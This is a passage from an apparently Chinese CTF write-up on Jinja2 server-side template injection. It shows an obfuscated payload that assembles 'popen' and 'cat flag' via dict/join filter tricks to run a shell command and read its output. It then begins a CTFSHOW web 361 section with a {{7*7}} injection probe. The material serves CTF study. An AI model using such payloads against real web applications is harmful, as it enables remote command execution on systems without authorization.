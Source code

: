 ```plain
{%set g=dict(pop=a,en=b)|join %} 
{%set h=(()|select|string|list)|attr(po)(one)%}
{%set flag=(dict(cat=abc)|join,h,dict(flag=b)|join)|join%}
{%set re=dict(read=a)|join%}
{{()|attr(a)|attr(b)|attr(c)()|attr(d)(hundred)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```

[![在这里插入图片描述](assets/1698900310-e8a1e2e7245064531a3374c4ddcda3ae.png)](https://storage.tttang.com/media/attachment/2022/08/14/2a0df7f0-de13-4cf9-bf2b-c8c28334b00c.png)

## [CTFSHOW](#toc_ctfshow)

### [web 361](#toc_web-361)

参数为 name，尝试注入

```plain
name={{7*7}}
```
